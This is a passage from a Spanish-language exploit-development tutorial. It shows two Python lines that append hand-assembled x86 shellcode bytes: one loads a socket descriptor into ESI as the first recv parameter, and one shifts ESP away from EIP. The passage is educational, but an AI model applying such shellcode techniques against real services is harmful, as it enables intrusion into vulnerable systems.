 y movemos el valor de EAX a ESI 

```PYTHON
recv += b"\x8b\x30"             #   mov esi, dword [eax]
```

![paste](./images/102.jpeg)

ya tenemos el primer parámetro que es el descriptor del socket recv

## ***Para evitar conflictos con el ESP***

Para evitarnos de problemas una instrucción que agregaremos será mover el ESP hacia arriba para que este no se empalme con el EIP 

```python
recv += b"\x83\xec\x64" 
```

esta instruccion es simple 

![paste](./images/103.jpeg)
